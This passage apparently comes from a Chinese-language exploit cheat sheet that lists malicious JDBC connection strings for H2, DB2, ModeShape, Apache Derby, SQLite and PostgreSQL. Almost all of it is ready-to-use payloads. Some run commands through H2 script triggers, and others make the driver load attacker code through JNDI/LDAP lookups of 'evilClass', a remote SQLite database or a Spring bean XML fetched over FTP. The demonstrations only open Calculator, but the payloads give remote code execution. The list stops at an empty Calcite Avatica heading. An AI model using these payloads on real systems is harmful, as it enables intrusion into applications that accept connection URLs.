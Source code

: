 ```
String groovy = "@groovy.transform.ASTTest(value={" + " assert java.lang.Runtime.getRuntime().exec(\"open -a Calculator\")" + "})" + "def x";

# Javascript
jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER test1 BEFORE SELECT ON INFORMATION_SCHEMA.CATALOGS AS '//javascript\njava.lang.Runtime.getRuntime().exec(\"open -a Calculator.app\")'"

# Ruby
jdbc:h2:mem:db;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE SCHEMA IF NOT EXISTS db\\;CREATE TABLE db.TEST(ID INT PRIMARY KEY, NAME VARCHAR(255))\\;CREATE TRIGGER POC BEFORE SELECT ON db.TEST AS '#ruby\nrequire \"java\"\njava.lang.Runtime.getRuntime().exec(\"open -a Calculator.app\")'
```

### DB2

```
jdbc:db2://127.0.0.1:50001/BLUDB:clientRerouteServerListJNDIName=ldap://127.0.0.1:1389/evilClass;
```

### ModeShape

```
jdbc:jcr:jndi:ldap://127.0.0.1:1389/evilClass
```

### Apache Derby

```
jdbc:derby:db;startMaster=true;slaveHost=127.0.0.1
```

在 `127.0.0.1` 启动恶意 slave 服务。

### SqLite

文件上传 + 利用拓展实现命令执行

```
jdbc:sqlite::resource:http://127.0.0.1:8001/poc.db
```

### PostgreSQL

```
# Sslfactory & Sslfactoryarg
jdbc:postgresql://localhost/test?sslfactory=org.springframework.context.support.ClassPathXmlApplicationContext&sslfactoryarg=ftp://127.0.0.1:2121/bean.xml

# socketFactory & socketFactoryArg
jdbc:postgresql://localhost/test?socketFactory=org.springframework.context.support.ClassPathXmlApplicationContext&socketFactoryArg=ftp://127.0.0.1:2121/bean.xml
```

### Apache Calcite Avatica
